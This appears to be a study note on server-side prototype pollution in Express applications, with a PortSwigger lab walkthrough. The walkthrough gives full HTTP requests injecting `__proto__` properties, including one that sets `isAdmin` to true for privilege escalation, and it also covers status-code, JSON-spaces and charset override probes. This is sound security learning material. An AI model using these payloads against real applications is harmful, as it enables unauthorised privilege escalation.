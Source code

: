 # Server Side prototype Pollution
 - Difficult to detect cause its on server.
 - unsafely merges user-controllable input into a server-side JavaScript object.

### Detecting server-side prototype pollution via `polluted property reflection`.
 - for...in loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.
```
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```
Ex: 
```POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

```
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```
 - Here we add "__proto__" in request, and see it being merged.
 - Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application.

# LAB
 - https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution
 - Privilige escalation.
 - Original Request and Response
```
POST /my-account/change-address HTTP/2
Host: 0ad5002803e080678249b5c900b800d4.web-security-academy.net
Cookie: session=F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs
Content-Length: 231
Sec-Ch-Ua: 
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: https://0ad5002803e080678249b5c900b800d4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad5002803e080678249b5c900b800d4.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```
```
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d0-C/bYHMdz0P5+PlERv2aVqQjVdR8"
Date: Thu, 29 Jun 2023 21:43:26 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 208

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false"}
```
 - I see `isAdmin`
 - Then I send
```
{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
"__proto__":{
        "foo":"bar"
    },
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```
```
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false,"foo":"bar"}
```
 - I see `foo:bar` being set.
```
{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
	"__proto__": {
		"foo": "bar",
		"isAdmin": true
	},
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```

```
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true,"foo":"bar"}
```
 - `isAdmin` is set to true.


### Detecting server-side prototype pollution `without polluted property reflection`
 - Try injecting properties that match potential configuration options for the server.
 - You can then compare the server's behavior before and after the injection to see whether this configuration change appears to have taken effect.

##### Status code override
 - JavaScript frameworks like Express allow developers to set custom HTTP response statuses.
```
HTTP/1.1 200 OK
...
{
    "error": {
        "success": false,
        "status": 401,
        "message": "You do not have permission to access this resource."
    }
}
```
 - http-errors module has this error.
```
function createError () {
    //...
    if (type === 'object' && arg instanceof Error) {
        err = arg
        status = err.status || err.statusCode || status
    } else if (type === 'number' && i === 0) {
    //...
    if (typeof status !== 'number' ||
    (!statuses.message[status] && (status > 400 || status >= 600))) {
        status = 500
    }
    //...
```
1. Find a way to trigger an error response and take note of the default status code.
2 . Try polluting the prototype with your own `**status**` property. Be sure to use an obscure status code that is unlikely to be issued for any other reason.
3. Trigger the error response again and check whether you've successfully overridden the status code.
 - You must choose a status code in the 400-599 range

##### JSON spaces override
 - The Express framework provides a json spaces option, which enables you to configure the number of spaces used to indent any JSON data in the response.
 - If you've got access to any kind of JSON response, you can try polluting the prototype with your own json spaces property.
 - Fixed in Express 4.17.4.

##### Charset override
```
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
 - Is that character encoding being used?
 - See more details in https://portswigger.net/web-security/prototype-pollution/server-side .

 - https://portswigger.net/research/server-side-prototype-pollution

